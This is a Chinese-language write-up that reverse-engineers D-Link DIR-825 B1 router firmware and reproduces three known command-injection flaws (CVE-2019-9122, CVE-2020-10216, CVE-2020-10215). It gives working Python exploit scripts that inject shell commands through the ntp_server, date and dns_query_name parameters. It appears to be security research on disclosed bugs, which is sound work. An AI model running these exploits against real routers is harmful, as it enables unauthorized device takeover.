# #dir825_command_injection

dir-825 B1 北美版的，出厂系统一般是2.02NA版，官方最后也就升级到2.09NA版
固件厂商：D-link 
固件版本：DIR825B1_FW210NAb02.bin


# 1信息收集
## file  checksec 


固件是mips  小端序


## 利用firmwalker和trommel做了下信息收集
### firmwalker

./firmwalker.sh /home/iot/Desktop/squashfs-root > ~/Desktop/res_firmwalk.txt


### trommel

python3 trommel.py -p ~/Desktop/squashfs-root/ -o result_trommel -d ~/Desktop/

并未发现很多有用的信息。

---


## 启动项分析


rc.s
```
#!/bin/sh


#挂载文件系统
mount -a
mount -o remount +w /
mount -t tmpfs tmpfs /tmp -o size=256k
mount -t usbfs none /proc/bus/usb

#将/etc/ath目录添加到系统的PATH环境变量中
export PATH=$PATH:/etc/ath

#二进制程序rc 启动 参数为init
rc init &
```


# 分析二进制程序rc
着重分析如何起httpd服务 ，程序启动为rc init 



查看rc_init()函数。


进入servicv_init()



发现在该函数中执行了很多system，其中包含挂载文件系统，插入内核模块，起httpd服务

---

# 2.固件模拟

```
sudo ./run.sh -d dlink  '/home/iot/Desktop/D-link/dir825B1/DIR825B1_FW210NAb02.bin' 
```


FAE可以直接系统级模拟


# 3.危险函数分析
分析启动项中发现，该路由器的web服务是有httpd程序起的。所以接下来我们重点分析httpd二进制程序。

## 1.system()




从NVRAM中获取参数，这两个都是不可控的，无法RCE。
其他的都不可控，无参数传递。

## 2._system （）
发现大多数的_system都是用于初始化的时候调用的，少部分是执行程序功能调用


### 漏洞点一（CVE-2019-9122	）



这个位置从前端cig获取参数，后端执行，寻找调用链，看是否可以RCE



网上检索一下，果然这个漏洞点被人挖掘过了，我们继续按照自己的思路，看是否能找到漏洞利用链。

首先向上看调用链 ，发现函数未调用，那么可能前端处理的时候跟上次一样，不会直接页面调用。

但是我们可以尝试根据他的get_cgi((int)"ntp_server")和 get_cgi((int)"html_response_page");来尝试定位具体是哪个cgi从前端传进来的。


grep后 我们着重分析tools_time.asp 

这是一个下拉选择菜单，漏洞输入点定位




```
%3B+echo+2+%3E+%2Ftmp%2Faaaaaa&html_response_return_page=static_routing.asp
```

漏洞未利用成功。  
仔细想想，是不是cgi定位错误了。  cgi中提交了两个参数html_response_page和ntp_server  ，那么可能我们定位cgi出错了。


这个cgi应该才是正确的，让我们来构造参数试试


成功了 。接下来写exp


exp
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests


command = "ntp1.dlink.com; echo ntpserve_success > /www/yy.asp;"
length = len(command)


payload = {"ntp_server":command, "html_response_page":"back.asp"}
r = requests.post('http://192.168.0.1/ntp_sync.cgi', data=payload)

y = requests.get('http://192.168.0.1/yy.asp')
print(y.text)
```


命令执行成功。


---
### 漏洞点二（CVE-2020-10216）


这个点就是也是命令注入，尝试定位cgi入口。

查看tools_time.asp


确定cgi后，构造参数，exp如下。

以下是exp
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests


command = "20080532; echo test > /www/yy.asp"
length = len(command)


payload = {"date":command, "html_response_return_page":"static_routing.asp"}
r = requests.post('http://192.168.0.1/system_time.cgi', data=payload)

y = requests.get('http://192.168.0.1/yy.asp')
print(y.text)
```


---

### 漏洞点三（CVE-2020-10215）



反汇编错误时，可用Y修改，ida会自动寻找寄存器上的参数，并对比


明显dns_query_name 中存在命令注入，下面寻找调用链。
从结束的init_cgi(0),我们能看出，该功能是和系统初始化有关的。

只找到了count_time有关的文件，都是在系统重置和系统初始化的时候调用的二进制程序

逆向来看，找不到输入点。我们从web端找找，看他的功能应该是和dns有关的。

最后前端并未找到对应的点。 这里值得继续再找找。

换了下思路，既然找不到cgi,那我就列出所有cgi，逐个尝试。

尝试搜索后，发现这里有dns_query.cgi 是唯一一个有dns的，优先试试。

同时，程序中get_cgi了这四个变量html_response_page，dns_query_name，html_response_return_page，countdown_time，所以我们尝试构造post请求。


exp如下
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests


command = "1; echo 999 > /www/gg.asp;"
length = len(command)


payload = {"html_response_page":"back.asp", "html_response_return_page":"static_routing", "dns_query_name":command, "countdown_time":"1"}
r = requests.post('http://192.168.0.1/dns_query.cgi', data=payload)

y = requests.get('http://192.168.0.1/gg.asp')
print(y.text)

```

本来以为是个0day ,结果exp写出来发现早就被提交了，白高兴一场。


---

命令执行system()和_system()全部函数分析后，只有以上三个漏洞利用点  
正好对应cvelist中的三个命令注入。

---


